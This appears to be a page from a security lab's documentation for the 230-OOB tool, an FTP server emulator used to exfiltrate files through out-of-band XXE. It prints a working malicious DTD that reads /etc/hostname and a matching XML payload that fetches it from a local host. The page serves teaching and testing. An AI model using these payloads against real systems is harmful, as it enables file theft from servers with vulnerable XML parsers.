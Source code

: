 ```yaml
---
title: "230-OOB"
weight: 20
---
```


{{% notice note %}}
The VM has this tool in the `/home/vagrant/tools/230-OOB` directory
{{% /notice %}}

Github URL: [https://github.com/lc/230-OOB](https://github.com/lc/230-OOB)

Emulates an FTP server, assisting you in achieving file read via Out-of-Band XXE.

```bash
python3 230.py 2121
```

![](/static/img/230_launch.png)

## Example

DTD - `/home/vagrant/dtds/230.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/hostname">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://127.0.0.1:2121/%d;'>">
```

Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [
<!ENTITY % asd SYSTEM "http://127.0.0.1:5000/230.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
```

![](/static/img/230_results.png)
